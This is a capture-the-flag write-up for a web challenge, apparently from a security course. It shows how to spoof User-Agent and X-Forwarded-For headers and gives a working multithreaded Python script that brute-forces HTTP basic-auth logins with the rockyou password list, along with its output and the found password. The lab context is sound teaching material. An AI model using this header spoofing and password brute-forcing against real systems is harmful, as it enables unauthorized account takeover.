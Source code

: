 # Monster
http://ctf.adl.tw:12002/

## Change Your User Agent in Chrome
Open Chrome's Developer Tools by right-clicking anywhere and choosing Inspect, hitting Ctrl + Shift + I, or by pressing F12  
At the bottom of the resulting panel, you should see a section with the tabs Console, Network conditions, and What's New. Press Esc to show this if you don't see it.

On the Network conditions tab, uncheck Select automatically and you can then choose a new user agent from the list. Refresh to update the page with the new agent.

Note that this setting will revert back to normal when you close the developer panel, and only applies to your current tab.
## How to change your IP
https://chrome.google.com/webstore/detail/x-forwarded-for-header/hkghghbnihliadkabmlcmcgmffllglin/related

## Or just use this extension
https://chrome.google.com/webstore/detail/http-headers/fabjnpecogealbfoebkcjfbmdhnnfhbj?hl=en-GB

# Now, you must login
bocchi & 🤘rockyou!!!
- turns out rockyou is a passw list...
so we write a script to find the passw by brute force
```py
import requests
import numpy as np
import threading
from tqdm import tqdm
tn = 20
lines =[item.strip() for item in open(
    "./debug/rockyou.txt", "r", encoding="latin-1").readlines()]

print(len(lines))
splits = np.array_split(lines, tn)
pbar = tqdm(total=len(lines))


def request(i):
    lines = splits[i]
    for idx, pw in enumerate(lines):
        #print(pw)
        r = requests.get('http://ctf.adl.tw:12002/admin',
                         headers={"X-Forwarded-For": "127.0.0.1",
                                  "User-Agent": "STARRYBrowser",
                                  "Accept-Language": "ja-JP"}, auth=("bocchi", pw))
        if len(r.text) != 1370:
            print(pw)
            with open('./debug/pw.txt', 'w') as f:
                f.write(pw)
            #break
            exit()
        #if idx % 100 == (100 * i) / tn:
        if idx % 100 == 0:
            pbar.update(100)


for i in range(tn):
    t = threading.Thread(target=request, args=(i,))
    t.start()
```
- the password is located around 40% of rockyou
```ps
PS D:\1111_work\1111attack_and_defense\security_2022> py .\web\monster\brute_force_multi_thread.py
14344391
 41%|███████████████████████████████████████████████████████▊                                                                                 | 5849900/14344391 [2:36:26<3:08:18, 751.83it/s]bocchio
```

- now that we have the password, we can use it to login~